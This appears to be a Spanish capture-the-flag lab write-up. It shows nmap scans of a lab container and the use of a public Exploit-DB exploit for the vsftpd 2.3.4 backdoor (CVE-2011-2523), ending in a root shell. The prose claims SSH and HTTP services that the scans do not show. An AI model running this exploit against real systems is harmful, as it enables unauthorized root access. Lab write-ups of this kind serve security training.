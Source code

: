 #ftp #command-execution

![](../../../Images/Pasted%20image%2020241008071742.png)
# Enumeración

## Nmap

El escaneo de **nmap** nos enseña la existencia de un servicio SSH i un servicio HTTP funcionando.

```
> nmap --open --min-rate 10000 -Pn -n -oN scans/allTCPPorts $target

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-08 15:44 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000013s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.53 seconds
```

```
> nmap -oN scans/targetedTCPPorts -sCV $target -p 22,80                       
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-08 15:44 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000045s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.85 seconds
```

## FTP (21 TCP Port)

Enumerando el servicio **FTP** nos encontramos con una versión que tiene la vulnerabilidad [CVE-2011-2523](https://nvd.nist.gov/vuln/detail/CVE-2011-2523) que permite la ejecución de comandos.

Descargando el siguiente [exploit](https://www.exploit-db.com/exploits/49757) conseguimos acceso al sistema objetivo directamente con permisos de administrador.

```
> python3 49757 172.17.0.2

/home/rh4ps00dy/Downloads/firsthacking/49757:11: DeprecationWarning: 'telnetlib' is deprecated and slated for removal in Python 3.13
  from telnetlib import Telnet
Success, shell opened
Send `exit` to quit shell
id
uid=0(root) gid=0(root) groups=0(root)
```